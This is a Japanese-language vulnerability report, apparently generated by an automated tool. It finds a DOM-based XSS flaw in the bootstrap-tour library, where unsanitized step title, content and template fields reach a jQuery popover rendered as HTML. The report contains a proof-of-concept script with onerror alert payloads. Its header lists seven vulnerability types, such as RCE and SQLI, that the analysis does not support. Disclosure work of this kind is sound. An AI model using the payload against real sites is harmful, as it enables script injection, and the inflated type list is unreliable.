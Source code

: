 # PAR Security Analysis Report

![中高信頼度](https://img.shields.io/badge/信頼度-中高-orange) **信頼度スコア: 80**

## 脆弱性タイプ

- `XSS`
- `AFO`
- `IDOR`
- `LFI`
- `RCE`
- `SSRF`
- `SQLI`

## PAR Policy Analysis

## 詳細解析

このライブラリでは、ユーザーが指定した"step.template"や"step.title"、"step.content"をサニタイズせずにそのままHTMLとして挿入し、$(element).popover({ html: true, content: step.content, template: step.template, title: step.title })で表示しています。つまり、悪意あるスクリプトを含む入力を渡すと、DOM上にそのままスクリプトが埋め込まれ、実行される可能性があります。これは典型的なDOMベースのXSSです。

## PoC（概念実証コード）

```text
<script src="https://code.jquery.com/jquery-3.6.0.min.js"></script>
<script src="bootstrap-tour.js"></script>
<script>
  // 攻撃的なツアー定義
  var tour = new Tour({
    steps: [
      {
        element: "body",
        placement: "bottom",
        title: "<img src=x onerror=alert('XSS')>",
        content: "悪意ある<img src=x onerror=alert('XSS-Content')>",
        template: "<div class='popover'><div class='arrow'></div><h3 class='popover-title'></h3><div class='popover-content'></div></div>"
      }
    ]
  });
  tour.init();
  tour.start();
</script>
```

## 解析ノート

- step.template, step.title, step.contentをサニタイズなしで$(...).popoverに渡している
- popover({ html:true })でHTMLとしてレンダリングされる
- 悪意あるonerrorスクリプトを含むと実行される
- ライブラリ側でエンコーディングやホワイトリスト処理がない
- DOMベースXSSに該当

